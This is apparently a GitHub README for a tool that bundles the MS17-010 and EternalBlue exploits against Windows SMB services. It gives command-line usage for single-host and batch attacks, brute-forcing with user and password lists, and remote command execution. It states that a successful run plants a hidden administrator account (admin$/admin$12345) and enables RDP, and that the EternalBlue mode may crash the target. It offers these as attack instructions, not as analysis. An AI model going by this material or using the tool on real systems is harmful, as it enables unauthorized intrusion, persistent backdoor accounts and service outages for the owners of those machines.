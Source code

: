 # ms17010-nsa-EternalBlue
integration ms17010 and nsa-EternalBlue

主要集成nsa的永恆之藍和ms17010系列poc。
永恆之藍poc有windows 7/2008 和 windows 8/2012 x64
ms17010 則是win all，Windows Vista以下可以匿名成功獲取system權限，
vista以上則需要 命名管道 接入權限，一般需要網域用戶權限。

Usage: "usage:MyExploiter.py [options] target"

Options:

  --version             show program's version number and exit
  
  -h, --help            show this help message and exit
  
  -m MODE, --mode=MODE  attack mode 0:ms17010 attack one; 1: ms17010 attack by
  
                        file; 2:blue attack one;3:blue attack Mul;4:check
						
                        one;5:check Mul)
						
  -p PORT, --port=PORT  SMB SERVICE PORT
  
  -u USER, --user=USER  SMB USER
  
  -U USERS, --users=USERS user file,SMB USERS
						
  --pwd=password        SMB USER PASSWORD
  
  --pwds=passwords, --pwds=passwords  pwd file,EACH SMB USER PASSWORDS
						
  -t THREADS, --threads=THREADS  thread num
						
  -c COMMOND, --cmd=COMMOND  execute commond on target
						
  -b BATCH, --batch=BATCH    batch file,execute batch file on target
  
  eg:
  模式0：自動執行ms17010攻擊，攻擊成功後靶機增加管理員賬號admin$/admin$12345並開啟RDP服務
  
  ms17010EXP 192.168.1.10 || ms17010EXP -U user.txt --pwds=pwd.txt -t(線程數) 2 192.168.1.10
  
  模式1：批量執行ms17010攻擊，攻擊成功後靶機增加管理員賬號admin$/admin$12345並開啟RDP服務
  
  ms17010EXP -m 1 ip.txt || ms17010EXP -m 1 -U user.txt --pwds=pwd.txt -t(線程數) 2 ip.txt
  
  模式2：執行永恆之藍攻擊，shellcode為shellcode.bin,成功後靶機可能藍屏或增加用戶admin$/admin$12345並開啟RDP服務
  
  ms17010EXP -m 2 192.168.1.10
  
  模式3，批量永恆之藍攻擊，ms17010EXP -m 3 ip.txt
  
  模式4，檢測靶機是否打補丁及命名管道的接入情況 ms17010EXP -m 4 192.168.1.10
  
  模式5，批量檢測 ms17010EXP -m 5 -t 2 --users=user.txt --pwds=pwd.txt ip.txt

  注意：用戶名字典 密碼字典 最後一行置空，即每行必須有換行符。

基於：https://github.com/worawit/MS17-010
